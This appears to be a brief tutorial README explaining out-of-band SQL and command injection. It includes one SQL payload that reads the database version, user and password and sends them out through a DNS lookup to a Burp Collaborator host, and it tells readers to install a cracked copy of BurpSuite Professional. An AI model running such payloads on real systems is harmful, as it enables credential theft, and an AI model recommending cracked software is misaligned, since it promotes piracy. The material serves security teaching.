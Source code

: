 <h1 align="Center">Out-of-band Injection Theory</h1>

### OOB injection is an exploitation to exfiltrate data and information through different outbond channel

## Traditional Injection Technique (In-Band)


![Web Archi](../photo/inband.png)

#### eg SQL Databse Query to make DNS request

```
select
load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.',
(SELECT+password),'.','n5tgzhrf768l71uaacqu0hqlocu2ir.burpcollabo
rator.net\\vfw'))
```


<br>

## OOB Injection



![Web Archi](../photo/oob.png)

# How to get listening server
	1. Install BurpSuite Professional (Crack)
	2. Use Burp Collaborator Client 
	4. DNS request to listening Server
	3. Collect captured info


## Formula

### For Command Injection

`𝑂𝑂𝐵 Commandinjection = 𝐹𝑖. (system 𝑐𝑜𝑚𝑚𝑎𝑛𝑑𝑠 + 𝐹𝑄𝐷𝑁)`

where,

<pre>
Fi     = function that initiates outbound request<br>
FQDN   = domain name of the listening server (Burpcollaborator domain name)
</pre>

### For Sql Injection

`𝑂𝑂𝐵 𝑆𝑄𝐿𝑖 = 𝐹𝑖. (𝑆𝑄𝐿 𝑐𝑜𝑚𝑚𝑎𝑛𝑑𝑠 + 𝐹𝑄𝐷𝑁)`


<pre>
Fi     = function that initiates outbound request<br>
FQDN   = domain name of the listening server (Burpcollaborator domain name)
</pre>


#### References
A Study of Out-of-Band Structured Query Language Injection by Lee Chun How  (doi: 10.5281/zenodo.3556347)

